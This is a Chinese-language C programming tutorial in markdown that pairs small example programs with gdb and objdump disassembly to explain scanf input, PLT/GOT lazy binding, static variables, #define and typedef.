



- # 知识速览
- ### [Learning-C demo实例](https://github.com/h0mbre/Learning-C)  
## 目录
- [helloworld](#helloworld)
- [变量声明](#变量声明)
- [输入与输出](#输入与输出)
  - [简易模式](#简易模式)
  - [重定向](#重定向)
  - [拓展模式](#拓展模式)
- [static](#static)
- [define/typedef](#definetypedef)
  - [define](#define)
  - [typedef](#typedef)
- [运算符](#运算符)
- [条件语句`if`](#条件语句if)
- [main函数参数](#main函数参数)
- [数组](#数组)
- [malloc和free](#malloc和free)
  - [malloc/free源码分析](#mallocfree源码分析)
- [srand/rand随机](#srandrand随机)
- [for循环](#for循环)
- [switch](#switch)
- [goto](#goto)
- [引用与指针](#引用与指针)
- [数组](#数组-1)
- [函数调用](#函数调用)
- [char数组](#char数组)
- [malloc](#malloc)
- [struct结构体](#struct结构体)
- [共用体 union](#共用体-union)
- [结构体引用结构体](#结构体引用结构体)
- [结构体数组](#结构体数组)
- [指针操作](#指针操作)
- [文件操作](#文件操作)
- [Syacall](#syacall)
  - [意义](#意义)
  - [Syscall对照表](#syscall对照表)
  - [syscall原理](#syscall原理)
- [socket](#socket)
- [dl动态库操作-dlsym](#dl动态库操作-dlsym)
- [后记](#后记)


## helloworld
```c
#include <stdio.h>

int main(void)
{
  printf("Hello, World!\n");
  return 0;
}

```
[:books: 返回目录](#目录)
## 变量声明
```c
#include <stdio.h>

int main(void)
{
  int integer = 5;
  float floatvar = 3.14;
  char string[] = "Hello, World!";

  printf("%d is an integer!\n", integer);
  printf("%f is a float!\n", floatvar);
  printf("%s is a char!\n", string);

}
```

输出
```sh
5 is an integer!
3.140000 is a float!
Hello, World! is a char!
```
[:books: 返回目录](#目录)
## 输入与输出
### 简易模式  
固定长度的数组  

```c
#include <stdio.h>

int main(void)
{
  //initialize vars
  char first[20];
  char last[20];

  //prompt user to input first and last name and use scanf() to store those to the initiliazed vars
  printf("Enter your first name: ");
  scanf("%s", &first);
  printf("Enter your last name: ");
  scanf("%s", &last);

  //print the welcome message!
  printf("Hello %s %s!\n", first, last);
}
```

缓冲区溢出的问题:  

<br>
<div align=center>
    </img>  
</div>
<br>

### 重定向  
`重定向`(relocations), 简单来说就是二进制文件中留下的"坑", 预留给外部变量或函数.  
这里的变量和函数统称为`符号`(symbols). 在编译期我们通常只知道外部符号的类型
(变量类型和函数原型), 而不需要知道具体的值(变量值和函数实现). 而这些预留的"坑",
会在用到之前(链接期间或者运行期间)填上. 在链接期间填上主要通过工具链中的连接器,
比如GNU链接器`ld`; 在运行期间填上则通过动态连接器, 或者说解释器(interpreter)来实现.  

首先查看一下动态符号表`objdump -T main`  
```sh
objdump -T main

main:     file format elf64-x86-64

DYNAMIC SYMBOL TABLE:
0000000000000000  w   D  *UND*	0000000000000000              _ITM_deregisterTMCloneTable
0000000000000000      DF *UND*	0000000000000000  GLIBC_2.4   __stack_chk_fail
0000000000000000      DF *UND*	0000000000000000  GLIBC_2.2.5 printf
0000000000000000      DF *UND*	0000000000000000  GLIBC_2.2.5 __libc_start_main
0000000000000000  w   D  *UND*	0000000000000000              __gmon_start__
0000000000000000      DF *UND*	0000000000000000  GLIBC_2.7   __isoc99_scanf
0000000000000000  w   D  *UND*	0000000000000000              _ITM_registerTMCloneTable
0000000000000000  w   DF *UND*	0000000000000000  GLIBC_2.2.5 __cxa_finalize
```

查看一下plt表  
```sh
$ objdump -M intel -d -j .plt main

main:     file format elf64-x86-64


Disassembly of section .plt:

0000000000001020 <.plt>:
    1020:	ff 35 8a 2f 00 00    	push   QWORD PTR [rip+0x2f8a]        # 3fb0 <_GLOBAL_OFFSET_TABLE_+0x8>
    1026:	f2 ff 25 8b 2f 00 00 	bnd jmp QWORD PTR [rip+0x2f8b]        # 3fb8 <_GLOBAL_OFFSET_TABLE_+0x10>
    102d:	0f 1f 00             	nop    DWORD PTR [rax]
    1030:	f3 0f 1e fa          	endbr64 
    1034:	68 00 00 00 00       	push   0x0
    1039:	f2 e9 e1 ff ff ff    	bnd jmp 1020 <.plt>
    103f:	90                   	nop
    1040:	f3 0f 1e fa          	endbr64 
    1044:	68 01 00 00 00       	push   0x1
    1049:	f2 e9 d1 ff ff ff    	bnd jmp 1020 <.plt>
    104f:	90                   	nop
    1050:	f3 0f 1e fa          	endbr64 
    1054:	68 02 00 00 00       	push   0x2
    1059:	f2 e9 c1 ff ff ff    	bnd jmp 1020 <.plt>
    105f:	90                   	nop
```

查看汇编`-exec disassemble /m`
```sh
5	  //initialize vars
6	  char first[20];
7	  char last[20];
8	
9	  //prompt user to input first and last name and use scanf() to store those to the initiliazed vars
10	  printf("Enter your first name: ");
=> 0x00005555555551a4 <+27>:	lea    rdi,[rip+0xe59]        # 0x555555556004
   0x00005555555551ab <+34>:	mov    eax,0x0
   0x00005555555551b0 <+39>:	call   0x555555555080 <printf@plt>

11	  scanf("%s", &first);
   0x00005555555551b5 <+44>:	lea    rax,[rbp-0x40]         # Load Effective Address 声明变量first
   0x00005555555551b9 <+48>:	mov    rsi,rax                # Move
   0x00005555555551bc <+51>:	lea    rdi,[rip+0xe59]        # 0x55555555601c 
   0x00005555555551c3 <+58>:	mov    eax,0x0
   0x00005555555551c8 <+63>:	call   0x555555555090 <__isoc99_scanf@plt>  # Call Procedure
```

查看地址内容`0x555555555090 <__isoc99_scanf@plt>`
```sh
-exec disas 0x555555555090
Dump of assembler code for function __isoc99_scanf@plt:
   0x0000555555555090 <+0>:	endbr64 
   0x0000555555555094 <+4>:	bnd jmp QWORD PTR [rip+0x2f35]        # 0x555555557fd0 <__isoc99_scanf@got.plt>    # jmp 无条件跳转
   0x000055555555509b <+11>:	nop    DWORD PTR [rax+rax*1+0x0]
End of assembler dump.
```

查看`0x555555557fd0 <__isoc99_scanf@got.plt>`
```
-exec disas 0x555555557fd0
Dump of assembler code for function __isoc99_scanf@got.plt:
   0x0000555555557fd0 <+0>:	mov    al,0x20
   0x0000555555557fd2 <+2>:	jrcxz  0x555555557fcb <printf@got.plt+3>        # RCX=0 跳转
   0x0000555555557fd4 <+4>:	(bad)  
   0x0000555555557fd5 <+5>:	jg     0x555555557fd7 <__isoc99_scanf@got.plt+7> # 大于跳转  
   0x0000555555557fd7 <+7>:	add    BYTE PTR [rax],al
End of assembler dump.
```

查看`0x555555557fd7 <__isoc99_scanf@got.plt+7>`  
```sh
-exec disas 0x555555557fd7
Dump of assembler code for function __isoc99_scanf@got.plt:
   0x0000555555557fd0 <+0>:	mov    al,0x20
   0x0000555555557fd2 <+2>:	jrcxz  0x555555557fcb <printf@got.plt+3>
   0x0000555555557fd4 <+4>:	(bad)  
   0x0000555555557fd5 <+5>:	jg     0x555555557fd7 <__isoc99_scanf@got.plt+7>
   0x0000555555557fd7 <+7>:	add    BYTE PTR [rax],al
End of assembler dump.
```

在其中没有看到got指向最终glibc中scanf的实现。但是可以通过objdump 反汇编查看`objdump -d  main`
```sh
0000000000001189 <main>:
    11c3:   b8 00 00 00 00          mov    $0x0,%eax
    11c8:   e8 c3 fe ff ff          callq  1090 <__isoc99_scanf@plt>

0000000000001090 <__isoc99_scanf@plt>:
    1090:   f3 0f 1e fa             endbr64 
    1094:   f2 ff 25 35 2f 00 00    bnd jmpq *0x2f35(%rip)        # 3fd0 <__isoc99_scanf@GLIBC_2.7>
    109b:   0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
```

`objdump`查看一下got表  
```sh
Sections:
Idx Name          Size      VMA               LMA               File off  Algn
 12 .plt          00000040  0000000000001020  0000000000001020  00001020  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 13 .plt.got      00000010  0000000000001060  0000000000001060  00001060  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 14 .plt.sec      00000030  0000000000001070  0000000000001070  00001070  2**4
                  CONTENTS, ALLOC, LOAD, READONLY, CODE
 22 .dynamic      000001f0  0000000000003db8  0000000000003db8  00002db8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got          00000058  0000000000003fa8  0000000000003fa8  00002fa8  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000010  0000000000004000  0000000000004000  00003000  2**3
                  CONTENTS, ALLOC, LOAD, DATA
```

查看.got的内容`objdump -M intel -d -j .got main`
```sh
objdump -M intel -d -j .got main

main:     file format elf64-x86-64


Disassembly of section .got:

0000000000003fa8 <_GLOBAL_OFFSET_TABLE_>:
    3fa8:	b8 3d 00 00 00 00 00 00 00 00 00 00 00 00 00 00     .=..............
	...
    3fc0:	30 10 00 00 00 00 00 00 40 10 00 00 00 00 00 00     0.......@.......
    3fd0:	50 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00     P...............
	...
```

`-exec disass __isoc99_scanf`
```sh
-exec disass __isoc99_scanf
Dump of assembler code for function __isoc99_scanf:
   0x00007ffff7e320b0 <+0>:	endbr64 
   0x00007ffff7e320b4 <+4>:	sub    rsp,0xd8
   0x00007ffff7e320bb <+11>:	mov    r10,rdi
   0x00007ffff7e320be <+14>:	mov    QWORD PTR [rsp+0x28],rsi
   0x00007ffff7e320c3 <+19>:	mov    QWORD PTR [rsp+0x30],rdx
   0x00007ffff7e320c8 <+24>:	mov    QWORD PTR [rsp+0x38],rcx
   0x00007ffff7e320cd <+29>:	mov    QWORD PTR [rsp+0x40],r8
   0x00007ffff7e320d2 <+34>:	mov    QWORD PTR [rsp+0x48],r9
   0x00007ffff7e320d7 <+39>:	test   al,al
   0x00007ffff7e320d9 <+41>:	je     0x7ffff7e32112 <__isoc99_scanf+98>
```
`__isoc99_scanf`地址为:`0x00007ffff7e320b0`  


目前发现call调用时，调用流程是`call scanf —> scanf的plt表 —>scanf的got表`  

我们就把获取数据段存放函数地址的那一小段代码称为`PLT（Procedure Linkage Table）`过程链接表存放函数地址的数据段称为`GOT（Global Offset Table）`全局偏移表。  

再次查看`0x555555557fd0 <__isoc99_scanf@plt>`
```sh
-exec x/32x 0x555555557fd0
0x555555557fd0 <__isoc99_scanf@got.plt>:	0xb0	0x20	0xe3	0xf7	0xff	0x7f	0x00	0x00
0x555555557fd8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x555555557fe0:	0x90	0x2f	0xdf	0xf7	0xff	0x7f	0x00	0x00
0x555555557fe8:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
-exec x/32i 0x555555557fd0
   0x555555557fd0 <__isoc99_scanf@got.plt>:	mov    al,0x20
   0x555555557fd2 <__isoc99_scanf@got.plt+2>:	jrcxz  0x555555557fcb <printf@got.plt+3>
   0x555555557fd4 <__isoc99_scanf@got.plt+4>:	(bad)  
   0x555555557fd5 <__isoc99_scanf@got.plt+5>:	jg     0x555555557fd7 <__isoc99_scanf@got.plt+7>
   0x555555557fd7 <__isoc99_scanf@got.plt+7>:	add    BYTE PTR [rax],al
```
[参考文章](https://www.jianshu.com/p/0ac63c3744dd)  

运行后加载动态库，把动态库中的相应函数地址填入GOT表，由于PLT表是跳转到GOT表的，这就构成了运行时重定位

也就是说在函数第一次调用时，才通过连接器动态解析并加载到`.got.plt`中，而这个过程称之为延时加载或者惰性加载。

到这里，也要接近尾声了，当第二次调用同一个函数的时候，就不会与第一次一样那么麻烦了，因为`got[n]`中已经有了真实地址，直接jmp该地址即可。  

<br>
<div align=center>
    </img>  
</div>
<br>

[:books: 返回目录](#目录)

### 拓展模式
根据用户输入的长度动态分配 char 变量的数组大小。  
```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
  //initialize vars
  char *first;
  char *last;

  //prompt user to input first and last name and use scanf() to store those to the initiliazed vars
  printf("Enter your first name: ");
  scanf("%ms", &first);
  printf("Enter your last name: ");
  scanf("%ms", &last);

  //print the welcome message!
  printf("Hello %s %s!\n", first, last);

  free(first);
  free(last);
}
```

汇编指令
```sh
6	  //initialize vars
7	  char *first;
8	  char *last;
9	
10	  //prompt user to input first and last name and use scanf() to store those to the initiliazed vars
11	  printf("Enter your first name: ");
=> 0x00005555555551c4 <+27>:	lea    rdi,[rip+0xe39]        # 0x555555556004
   0x00005555555551cb <+34>:	mov    eax,0x0
   0x00005555555551d0 <+39>:	call   0x5555555550a0 <printf@plt>

12	  scanf("%ms", &first);
   0x00005555555551d5 <+44>:	lea    rax,[rbp-0x18]
   0x00005555555551d9 <+48>:	mov    rsi,rax
   0x00005555555551dc <+51>:	lea    rdi,[rip+0xe39]        # 0x55555555601c
   0x00005555555551e3 <+58>:	mov    eax,0x0
   0x00005555555551e8 <+63>:	call   0x5555555550b0 <__isoc99_scanf@plt>

19	  free(first);
   0x0000555555555232 <+137>:	mov    rax,QWORD PTR [rbp-0x18]
   0x0000555555555236 <+141>:	mov    rdi,rax
   0x0000555555555239 <+144>:	call   0x555555555080 <free@plt>
```

查看`0x5555555550b0 <__isoc99_scanf@plt>`
```sh
-exec disas 0x5555555550b0
Dump of assembler code for function __isoc99_scanf@plt:
   0x00005555555550b0 <+0>:	endbr64 
   0x00005555555550b4 <+4>:	bnd jmp QWORD PTR [rip+0x2f15]        # 0x555555557fd0 <__isoc99_scanf@got.plt>
   0x00005555555550bb <+11>:	nop    DWORD PTR [rax+rax*1+0x0]
End of assembler dump.
```

查看具体函数实现`disas __isoc99_scanf`  
```sh
-exec disas __isoc99_scanf
Dump of assembler code for function __isoc99_scanf:
   0x00007ffff7e320b0 <+0>:   endbr64 
   0x00007ffff7e320b4 <+4>:   sub    rsp,0xd8
   0x00007ffff7e320bb <+11>:  mov    r10,rdi
   0x00007ffff7e320be <+14>:  mov    QWORD PTR [rsp+0x28],rsi
   0x00007ffff7e320c3 <+19>:  mov    QWORD PTR [rsp+0x30],rdx
   0x00007ffff7e320c8 <+24>:  mov    QWORD PTR [rsp+0x38],rcx
   0x00007ffff7e320cd <+29>:  mov    QWORD PTR [rsp+0x40],r8
   0x00007ffff7e320d2 <+34>:  mov    QWORD PTR [rsp+0x48],r9
   0x00007ffff7e320d7 <+39>:  test   al,al
   0x00007ffff7e320d9 <+41>:  je     0x7ffff7e32112 <__isoc99_scanf+98>
   0x00007ffff7e320db <+43>:  movaps XMMWORD PTR [rsp+0x50],xmm0
   0x00007ffff7e320e0 <+48>:  movaps XMMWORD PTR [rsp+0x60],xmm1
   0x00007ffff7e320e5 <+53>:  movaps XMMWORD PTR [rsp+0x70],xmm2
   0x00007ffff7e320ea <+58>:  movaps XMMWORD PTR [rsp+0x80],xmm3
   0x00007ffff7e320f2 <+66>:  movaps XMMWORD PTR [rsp+0x90],xmm4
   0x00007ffff7e320fa <+74>:  movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x00007ffff7e32102 <+82>:  movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x00007ffff7e3210a <+90>:  movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x00007ffff7e32112 <+98>:  mov    rax,QWORD PTR fs:0x28
   0x00007ffff7e3211b <+107>: mov    QWORD PTR [rsp+0x18],rax
   0x00007ffff7e32120 <+112>: xor    eax,eax
   0x00007ffff7e32122 <+114>: lea    rax,[rsp+0xe0]
   0x00007ffff7e3212a <+122>: mov    rdx,rsp
   0x00007ffff7e3212d <+125>: mov    rsi,r10
   0x00007ffff7e32130 <+128>: mov    QWORD PTR [rsp+0x8],rax
   0x00007ffff7e32135 <+133>: lea    rax,[rsp+0x20]
   0x00007ffff7e3213a <+138>: mov    ecx,0x2
   0x00007ffff7e3213f <+143>: mov    QWORD PTR [rsp+0x10],rax
   0x00007ffff7e32144 <+148>: mov    rax,QWORD PTR [rip+0x188e75]        # 0x7ffff7fbafc0
   0x00007ffff7e3214b <+155>: mov    DWORD PTR [rsp],0x8
   0x00007ffff7e32152 <+162>: mov    rdi,QWORD PTR [rax]
   0x00007ffff7e32155 <+165>: mov    DWORD PTR [rsp+0x4],0x30
   0x00007ffff7e3215d <+173>: call   0x7ffff7e32a00 <__vfscanf_internal>
   0x00007ffff7e32162 <+178>: mov    rcx,QWORD PTR [rsp+0x18]
   0x00007ffff7e32167 <+183>: xor    rcx,QWORD PTR fs:0x28
   0x00007ffff7e32170 <+192>: jne    0x7ffff7e3217a <__isoc99_scanf+202>
   0x00007ffff7e32172 <+194>: add    rsp,0xd8
   0x00007ffff7e32179 <+201>: ret    
   0x00007ffff7e3217a <+202>: call   0x7ffff7efea70 <__stack_chk_fail>
End of assembler dump.
```

[:books: 返回目录](#目录)

## static

```c
#include <stdio.h>
 
/* 函数声明 */
void func1(void);
 
static int count=10;        /* 全局变量 - static 是默认的 */
 
int main()
{
  while (count--) {
      func1();
  }
  return 0;
}
 
void func1(void)
{
/* 'thingy' 是 'func1' 的局部变量 - 只初始化一次
 * 每次调用函数 'func1' 'thingy' 值不会被重置。
 */                
  static int thingy=5;
  thingy++;
  printf(" thingy 为 %d ， count 为 %d\n", thingy, count);
}
```

输出结果为:
```
 thingy 为 6 ， count 为 9
 thingy 为 7 ， count 为 8
 thingy 为 8 ， count 为 7
 thingy 为 9 ， count 为 6
 thingy 为 10 ， count 为 5
 thingy 为 11 ， count 为 4
 thingy 为 12 ， count 为 3
 thingy 为 13 ， count 为 2
 thingy 为 14 ， count 为 1
 thingy 为 15 ， count 为 0
```

反汇编内容: 
```sh
# main函数
10   while (count--) {
   0x0000555555555151 <+8>:   jmp    0x555555555158 <main+15>
   0x0000555555555158 <+15>:  mov    eax,DWORD PTR [rip+0x2eb2]        # 0x555555558010 <count>  把count的值加载到eax中
   0x000055555555515e <+21>:  lea    edx,[rax-0x1]                     # 汇编调试视图 rax=0xa, 相当于count--
   0x0000555555555161 <+24>:  mov    DWORD PTR [rip+0x2ea9],edx        # 0x555555558010 <count>  相当于 count = count - 1
   0x0000555555555167 <+30>:  test   eax,eax
   0x0000555555555169 <+32>:  jne    0x555555555153 <main+10>

11       func1();
   0x0000555555555153 <+10>:  call   0x555555555172 <func1>

18 /* 'thingy' 是 'func1' 的局部变量 - 只初始化一次
19  * 每次调用函数 'func1' 'thingy' 值不会被重置。
20  */                
21   static int thingy=5;
22   thingy++;
   0x000055555555517a <+8>:   mov    eax,DWORD PTR [rip+0x2e94]        # 0x555555558014 <thingy.2324>
   0x0000555555555180 <+14>:  add    eax,0x1
   0x0000555555555183 <+17>:  mov    DWORD PTR [rip+0x2e8b],eax        # 0x555555558014 <thingy.2324>

23   printf(" thingy 为 %d ， count 为 %d\n", thingy, count);
   0x0000555555555189 <+23>:  mov    edx,DWORD PTR [rip+0x2e81]        # 0x555555558010 <count>
   0x000055555555518f <+29>:  mov    eax,DWORD PTR [rip+0x2e7f]        # 0x555555558014 <thingy.2324>
   0x0000555555555195 <+35>:  mov    esi,eax
   0x0000555555555197 <+37>:  lea    rdi,[rip+0xe6a]        # 0x555555556008
   0x000055555555519e <+44>:  mov    eax,0x0
   0x00005555555551a3 <+49>:  call   0x555555555050 <printf@plt>
```

局部静态变量sum不是向普通局部变量一样被分配在栈空间上，而是被分配到了内存中的`静态数据区`(由_BBS指定)([rip+0x2eb2])，因此它的声明期不在受栈空间的分配和释放影响，而是整个程序的运行期间，但是他的可见性(作用域)任然只存于函数内，这是由编译器来保证的。只有申请，没有被释放。  

无论静态全局变量或者静态局部变量，只要申请之后，就会存在于静态数据区。静态局部变量第二次使用时，运行时，会知道该变量已经初始化  
```sh
-exec call sizeof(count)
$1 = 4
-exec x/4x 0x555555558010
0x555555558010 <count>:	0x00000009	0x00000005	0x00000000	0x00000000
                        # count      # thingy
```

`0x555555558010 − 0x0000555555555161 = 2eaf`  
```sh
=> 0x0000555555555161 <+24>:	mov    DWORD PTR [rip+0x2ea9],edx        # 0x555555558010 <count>
   0x0000555555555167 <+30>:	test   eax,eax
```

`rip` = 0x0000555555555161  


[:books: 返回目录](#目录)

## define/typedef
### define 
```c
#include <stdio.h>
//define a value for PIE
#define PIE 3.14

int main(void)
{
  //initialize variable
  float radius;

  //get user input and store it
  printf("Enter the radius of your circle: ");
  scanf("%f", &radius);

  //do the maths
  float area;
  area = PIE * (radius * radius);

  printf("The area of your circle is %f", area);
}
```

查看预处理结果`gcc -E main.c -o main.i`, 查看`main.i`中main函数的信息  
```sh
# 5 "main.c"
int main(void)
{

  float radius;


  printf("Enter the radius of your circle: ");
  scanf("%f", &radius);


  float area;
  area = 3.14 * (radius * radius);

  printf("The area of your circle is %f", area);
}
```

另外还有一种方式:修改编译参数为`-g3`, 使用`macro exp`指令查看  
```sh
-exec macro exp PIE
expands to: 3.14
```

反汇编结果
```sh
7    //initialize variable
8    float radius;
9  
10   //get user input and store it
11   printf("Enter the radius of your circle: ");
   0x00005555555551a4 <+27>:  lea    rdi,[rip+0xe5d]        # 0x555555556008
   0x00005555555551ab <+34>:  mov    eax,0x0
   0x00005555555551b0 <+39>:  call   0x555555555080 <printf@plt>

12   scanf("%f", &radius);
=> 0x00005555555551b5 <+44>:  lea    rax,[rbp-0x10]         # radius 变量栈地址
   0x00005555555551b9 <+48>:  mov    rsi,rax
   0x00005555555551bc <+51>:  lea    rdi,[rip+0xe67]        # 0x55555555602a  %f
   0x00005555555551c3 <+58>:  mov    eax,0x0
   0x00005555555551c8 <+63>:  call   0x555555555090 <__isoc99_scanf@plt>

13 
14   //do the maths
15   float area;
16   area = PIE * (radius * radius);
   0x00005555555551cd <+68>:  movss  xmm1,DWORD PTR [rbp-0x10]
   0x00005555555551d2 <+73>:  movss  xmm0,DWORD PTR [rbp-0x10]
   0x00005555555551d7 <+78>:  mulss  xmm0,xmm1
   0x00005555555551db <+82>:  cvtss2sd xmm1,xmm0
   0x00005555555551df <+86>:  movsd  xmm0,QWORD PTR [rip+0xe69]        # 0x555555556050
   0x00005555555551e7 <+94>:  mulsd  xmm0,xmm1
   0x00005555555551eb <+98>:  cvtsd2ss xmm0,xmm0
   0x00005555555551ef <+102>: movss  DWORD PTR [rbp-0xc],xmm0

```

变量还是需要初始化的，不然就是位置数据
```sh
-exec p area
$1 = 4.59163468e-41
```

查看寄存器`rip`内容  
```sh
-exec i registers
rip            0x5555555551df      0x5555555551df <main+86>
```

[:books: 返回目录](#目录)

### typedef
#define 是 C 指令，用于为各种数据类型定义别名，与 typedef 类似，但是它们有以下几点不同:  
- typedef 仅限于为类型定义符号名称，#define 不仅可以为类型定义别名，也能为数值定义别名，比如您可以定义 1 为 ONE。
- typedef 是由编译器执行解释的，#define 语句是由预编译器进行处理的。

C 语言提供了 typedef 关键字，您可以使用它来为类型取一个新的名字  

```c
typedef unsigned char BYTE;
```

```c
#include <stdio.h>
#include <string.h>
 
typedef struct Books
{
   char  title[50];
   char  author[50];
   char  subject[100];
   int   book_id;
} Book;
 
int main( )
{
   Book book;
 
   strcpy( book.title, "C 教程");
   strcpy( book.author, "Runoob"); 
   strcpy( book.subject, "编程语言");
   book.book_id = 12345;
 
   printf( "书标题 : %s\n", book.title);
   printf( "书作者 : %s\n", book.author);
   printf( "书类目 : %s\n", book.subject);
   printf( "书 ID : %d\n", book.book_id);
 
   return 0;
}
```

反汇编内容: 
```c
14    Book book;
15  
16    strcpy( book.title, "C 教程");
=> 0x0000555555555187 <+30>:  lea    rax,[rbp-0xe0]
   0x000055555555518e <+37>:  movabs rdx,0x8ba8e79995e62043
   0x0000555555555198 <+47>:  mov    QWORD PTR [rax],rdx
   0x000055555555519b <+50>:  mov    BYTE PTR [rax+0x8],0x0
```

从汇编中无法看出`typedef`的作用，是在编译过程中执行的。  

typedef在语法上是一个存储类关键字！跟常见的存储类关键字(如：auto、register、static、extern)一样，在修饰一个变量时，不能同时使用一个以上的存储类关键字，否则编译会报错：  
```sh
typedef static char * PCHAR;
//error: multiple storage classes in declaration of `PCHAR'
```


[:books: 返回目录](#目录)


## 运算符  
```c
#include <stdio.h>


int main(void)
{
  //initialize var
  float seconds;
  
  //get value for var
  printf("Enter the amount of seconds: ");
  scanf("%f", &seconds);

  //initialize our arithmetic vars
  float hours;
  float mins;
  float remaining_seconds;

  //make sure the hours value is a whole number that doesn't consider the decimal by using the (int) operation. 
  //for instance, 1.2 hours will be stored in hours as 1.0 here
  hours = (int)(seconds / 3600);
  
  //repeat for mins
  mins = (int)((seconds - (hours * 3600))/60);
  
  //remaining_seconds is simply what's leftover
  remaining_seconds = (seconds - (hours * 3600) - (mins * 60));
  printf("%0.0f seconds is equal to %0.0f hours, %0.0f minutes, and %0.0f seconds.", seconds, hours, mins, remaining_seconds);

  return 0;
}
```

反汇编结果
```sh

6   //initialize var
7   float seconds;
8   
9   //get value for var
10    printf("Enter the amount of seconds: ");
